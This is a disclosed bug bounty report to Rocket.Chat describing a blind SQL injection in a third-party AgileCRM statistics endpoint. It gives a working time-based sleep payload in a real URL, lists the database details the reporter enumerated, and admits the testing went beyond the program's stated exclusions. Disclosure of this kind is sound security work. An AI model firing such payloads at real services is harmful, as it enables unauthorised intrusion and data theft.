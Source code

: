 # Blind SQL injection in third-party software, that allows to reveal user statistic from rocket.chat and possibly hack into the rocketchat.agilecrm.com

## Report Details
- **Report ID**: 433792
- **URL**: https://hackerone.com/reports/433792
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2018-11-03T15:23:26.805Z
- **Disclosed**: 2019-10-17T17:34:31.225Z

## Reporter
- **Username**: w2w
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
Hi. I decided to go to static website https://rocket.chat/ and look what is there. I found third-party website request `https://stats2.agilecrm.com/addstats?callback=json9064172181954295&guid=5d659e65-2870-63d3-eff0-654315dd3b91&sid=515241ff-64f3-5589-f595-bf1bcccc56f9&url=https%3A%2F%2Frocket.chat%2F&agile=8pat9ou8gh0thqd8dlgctje3go&domain=dorgam` that loading on the main page. After "lite" parameters fussing I found out that parameter "new" is vulnerable to Blind SQL injection vulnerability.
**PoC:**
https://stats2.agilecrm.com/addstats?callback=json949659033379064&guid=f0d3738c-44c0-60a6-44b6-56e14ca30872&sid=2172c2ca-15b6-49c8-052d-b7d817cd280b&url=https%3A%2F%2Frocket.chat%2F&agile=8pat9ou8gh0thqd8dlgctje3go&new=(select*from(select(sleep(5)))a)&ref=&domain=dorgam

**Result:**
5 seconds of loading.

To show the vulnerability threat I decided to exploit it a bit:

Database version: MySQL 5.0.12
Server hostname: localhost
Databases: information_schema; mysql; performance_schema; stats
Stats: 3; persons; map.

## Suggested mitigation

Try to contact agilecrm support / developers and tell them about vulnerability and fix needing.

P.S: I know that on BB main page you letting researchers know about exclusions:
`Exclusions
While researching, we'd like to ask you to refrain from:
Static website (https://rocket.chat)`
But because of vulnerability severity I think I must let you know anyway.

## Impact

Vuln allows to reveal user statistic information from rocket.chat and possibly hack into rocketchat.agilecrm.com (if attacker decided to go deeper).

## Attachments
- image7cpf4.png
- image8gvyn.png
